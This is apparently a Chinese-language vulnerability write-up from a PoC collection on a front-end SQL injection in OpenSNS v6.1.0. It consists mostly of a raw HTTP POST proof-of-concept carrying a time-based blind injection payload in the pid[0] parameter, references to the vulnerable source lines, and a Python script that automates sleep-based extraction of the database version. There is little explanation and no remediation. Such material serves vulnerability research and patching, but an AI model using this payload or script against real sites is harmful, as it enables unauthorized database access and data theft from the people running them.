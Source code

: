 # OpenSNS v6.1.0 前台sql注入

### 一、漏洞简介

### 二、漏洞影响

OpenSNS v6.1.0

### 三、复现过程

vul url


```
http://url/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html
```

![](images/15891996692656.png)


poc


```bash
POST /index.php?s=%2Fhome%2Faddons%2F_addons%2Fchina_city%2F_controller%2Fchina_city%2F_action%2Fgetcity.html HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Length: 116
Accept: */*
Cookie: 
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,und;q=0.7
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.95.131
Referer: http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/ucenter/config/index.html
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

cid=0&pid%5B0%5D=%3D%28select%2Afrom%28select%2Bsleep%283%29union%2F%2A%2A%2Fselect%2B1%29a%29and+3+in+&pid%5B1%5D=3
```

![](images/15891996906465.png)


![](images/15891996953541.png)


Vulnerability file

Addons/ChinaCity/Controller/ChinaCityController.class.php:50

![](images/15891997036710.png)


ThinkPHP/Library/Think/Db.class.php:772

![](images/15891997112567.png)


![](images/15891997151591.png)


exp


```bash
import requests
from requests import exceptions

url="http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"


header={'X-Requested-With':'XMLHttpRequest'}
# proxies={'http':'127.0.0.1:8080'}
flag=''
for i in range(1,50):
    for j in range(32,128):
        try:
            data={
                'cid':0,
                'pid[0]':"=(select if(ord(substr((select version()),{},1))={},sleep(10),0))AND 3 IN  ".format(i,j),
                'pid[1]':3
            }
            # print data['pid[0]']
            r=requests.post(url,data=data,headers=header,timeout=5)

        except exceptions.Timeout :
            flag+=chr(j)
            print flag
```

![](images/15891997304643.png)


